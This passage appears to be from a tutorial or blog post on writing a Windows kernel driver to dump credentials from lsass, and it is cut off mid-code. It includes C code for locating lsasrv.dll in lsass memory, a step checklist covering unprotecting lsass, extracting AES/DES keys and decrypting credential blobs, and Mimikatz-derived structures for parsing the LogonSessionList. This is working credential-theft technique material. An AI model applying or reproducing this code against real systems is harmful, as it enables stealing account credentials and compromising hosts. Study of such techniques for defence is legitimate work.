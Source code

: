 ```c
			*pTargetModuleBase = entry.DllBase;
			*pSize = entry.SizeOfImage;
			printf("MODULE FOUND!!!\n");
			return TRUE;
		}
		// Advance: move to next wnode using the pointer we just read into curLE
		remoteCurrentAddr = curLE.Flink;
	}

	return FALSE;
}
```

Within each LIST_ENTRY we're pulling the `LDR_DATA_TABLE_ENTRY` which contains an element for the FullDllName that we use to confirm when we've found L"C:\\Windows\\system32\\lsasrv.dll"`.

# Extracting Credentials

Now that we've found lsasrv.dll comes the fun part, extracting credentials! Lets take another look at our checklist:

1. Create driver ✔️
2. Load driver ✔️
3. Unprotect lsass ✔️
4. Get lsass process handle ✔️
5. Find lsasrv.dll in lsass memory space ✔️
6. Find `LogonSessionList` pattern match address in lsasrv.dll
7. Find AES/DES/IV Key pattern match address in lsasrv.dll.
8. 9. Extract AES / DES / IV Keys
9. Read through LogonSessionList for encrypted security blobs
10. Decrypt encrypted security blob
11. MONEY!

## LogonSessionList

The LogonSessionList is a structure unique to lsass that stores the credentials we're after.  This is where some review of the Mimikatz source code starts to come in handy.  The LogonSessionList is represented in Mimikatz as the `PKIWI_MSV1_0_LIST_63` structure:

```c
typedef struct _LSA_UNICODE_STRING {
    USHORT Length;          // in bytes, not characters
    USHORT MaximumLength;   // in bytes
    PWSTR  Buffer;          // pointer to wide string
} LSA_UNICODE_STRING, * PLSA_UNICODE_STRING;

typedef struct _KIWI_MSV1_0_LIST_63 {
    struct _KIWI_MSV1_0_LIST_63* Flink;
    struct _KIWI_MSV1_0_LIST_63* Blink;
    PVOID unk0;
    ULONG unk1;
    PVOID unk2;
    ULONG unk3;
    ULONG unk4;
    ULONG unk5;
    HANDLE hSemaphore6;
    PVOID unk7;
    HANDLE hSemaphore8;
    PVOID unk9;
    PVOID unk10;
    ULONG unk11;
    ULONG unk12;
    PVOID unk13;
    LUID LocallyUniqueIdentifier;
```